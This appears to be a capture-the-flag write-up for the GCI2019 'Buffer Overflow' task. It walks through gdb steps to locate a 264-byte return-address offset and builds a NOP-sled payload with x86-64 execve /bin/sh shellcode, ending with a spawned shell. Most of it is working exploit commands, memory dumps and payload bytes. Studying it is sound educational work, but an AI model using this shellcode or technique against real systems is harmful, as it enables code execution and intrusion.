

This is the write-up for the task Buffer Overflow in GCI2019!
First, make the stack executeable so we can run our shellcode in the buffer.
$ execstack -s exploitmeAnd then, run GDB
$ gdb exploitmeThis program takes its argument and prints it out
(gdb) run 123
Starting program: /home/yi/Workspace/GCI/BufferOverflow/exploitme 123
123
[Inferior 1 (process 116393) exited normally] If we disassemble the main funcion, we can see that it uses the strcpy function, which is vulnerable to buffer overflow attacks
(gdb) disas main
Dump of assembler code for function main:
0x0000555555555145 <+0>: push %rbp
0x0000555555555146 <+1>: mov %rsp,%rbp
0x0000555555555149 <+4>: sub $0x110,%rsp
0x0000555555555150 <+11>: mov %edi,-0x104(%rbp)
0x0000555555555156 <+17>: mov %rsi,-0x110(%rbp)
0x000055555555515d <+24>: mov -0x110(%rbp),%rax
0x0000555555555164 <+31>: add $0x8,%rax
0x0000555555555168 <+35>: mov (%rax),%rdx
0x000055555555516b <+38>: lea -0x100(%rbp),%rax
0x0000555555555172 <+45>: mov %rdx,%rsi
0x0000555555555175 <+48>: mov %rax,%rdi
0x0000555555555178 <+51>: callq 0x555555555030 <strcpy@plt>
0x000055555555517d <+56>: lea -0x100(%rbp),%rax
0x0000555555555184 <+63>: mov %rax,%rdi
0x0000555555555187 <+66>: callq 0x555555555040 <puts@plt>
0x000055555555518c <+71>: mov $0x0,%eax
0x0000555555555191 <+76>: leaveq
0x0000555555555192 <+77>: retq
End of assembler dump.When the system calls the main function, the return pointer was pushed into the stack, the char buffer is pushed afterwards and then the input is copied

Therefore, if the input is too long, it may overwrite the return address
(gdb) run $(python2 -c "print('A'*300)")
Starting program: /home/yi/Workspace/GCI/BufferOverflow/exploitme $(python2 -c "print('A'*300)")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAA
Program received signal SIGSEGV, Segmentation fault.
0x0000555555555192 in main ()
(gdb) x/i $rip
=> 0x555555555192 <main+77>: retq
(gdb) x/g $rsp
0x7fffffffd908: 0x4141414141414141The return address was overwritten to ‘A’s (0x41)
When the main function finishes and is going to return, the system can not access the address 0x4141414141414141 so it causes segfault
However, if we can overwrite the address intentionally and point it to the buffer, we can trick the program into running our assembly code
Let’s test different lengths to find out where the address is
'A'*300 -> segfault
'A'*200 -> exited normally
'A'*250 -> exited normally
'A'*260 -> exited normally
'A'*270 -> jumped to 0x0000414141414141 and segfault
'A'*265 -> jumped to 0x00007ffff7de0041 and segfault
'A'*266 -> jumped to 0x00007ffff7de4141 and segfault
'A'*264+'BBBBBB' -> jumped to 0x0000424242424242 and segfaultNow we know that the return address is 264 bytes away from the start of the buffer
We can now insert this shellcode that executes /bin/sh to get the shell
\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05
Source
Payload:[nopslide(100B)]+[shellcode(23B)]+[random thing(264-100-23B)]+[address to nopslide]
If the shellcode is too close to
$rsp, it may corrupt itself.
So I put the shellcode a little bit away from$rsp
We don’t have the exact address to the nopslide, but we can just place it with ‘B’s and look it up later
(gdb) run $(python2 -c "print('\x90'*100 + '\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05' + 'A'*(264-100-24) + 'BBBBBB')")
Program received signal SIGSEGV, Segmentation fault.
0x0000424242424242 in ?? ()Use python2 instead of python3
Python3’s print function has some kind of encodings, and some characters will change
e.g0x90becomes0xc290
The program jumped to 0x0000424242424242, which means our payload is correct
Now we are going to look up the address of our buffer
We know that the buffer string has been popped, so we have to look behind $rsp
(gdb) x/200bx $rsp-300
0x7fffffffdab4: 0x00 0x00 0x00 0x00 0x8c 0x51 0x55 0x55
0x7fffffffdabc: 0x55 0x55 0x00 0x00 0xb8 0xdc 0xff 0xff
0x7fffffffdac4: 0xff 0x7f 0x00 0x00 0xc0 0xe6 0xff 0xf7
0x7fffffffdacc: 0x02 0x00 0x00 0x00 0x90 0x90 0x90 0x90
0x7fffffffdad4: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7fffffffdadc: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7fffffffdae4: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7fffffffdaec: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7fffffffdaf4: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7fffffffdafc: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7fffffffdb04: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7fffffffdb0c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7fffffffdb14: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7fffffffdb1c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7fffffffdb24: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7fffffffdb2c: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0x7fffffffdb34: 0x50 0x48 0x31 0xd2 0x48 0x31 0xf6 0x48
0x7fffffffdb3c: 0xbb 0x2f 0x62 0x69 0x6e 0x2f 0x2f 0x73
0x7fffffffdb44: 0x68 0x53 0x54 0x5f 0xb0 0x3b 0x0f 0x05
0x7fffffffdb4c: 0x41 0x41 0x41 0x41 0x41 0x41 0x41 0x41
0x7fffffffdb54: 0x41 0x41 0x41 0x41 0x41 0x41 0x41 0x41
0x7fffffffdb5c: 0x41 0x41 0x41 0x41 0x41 0x41 0x41 0x41
0x7fffffffdb64: 0x41 0x41 0x41 0x41 0x41 0x41 0x41 0x41Found the nopslide, the shellcode and the ‘A’s!
Choose one of the addresses in the nopslide: 0x7fffffffdb2c
Final payload:'\x90'*100 + '\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05' + 'A'*(264-100-24) + '\x2c\xdb\xff\xff\xff\x7f'
(gdb) run $(python2 -c "print('\x90'*100 + '\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05' + 'A'*(264-100-24) + '\x2c\xdb\xff\xff\xff\x7f')")
Starting program: /home/yi/Workspace/GCI/BufferOverflow/exploitme $(python2 -c "print('\x90'*100 + '\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05' + 'A'*(264-100-24) + '\x2c\xdb\xff\xff\xff\x7f')")
����������������������������������������������������������������������������������������������������PH1�H1�H�/bin//shST_�;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,����
process 116461 is executing new program: /usr/bin/bash
[yi@YNB BufferOverflow]$We got the shell!

![[GCI2019] Buffer Overflow](/medias/featureimages/material-15.png)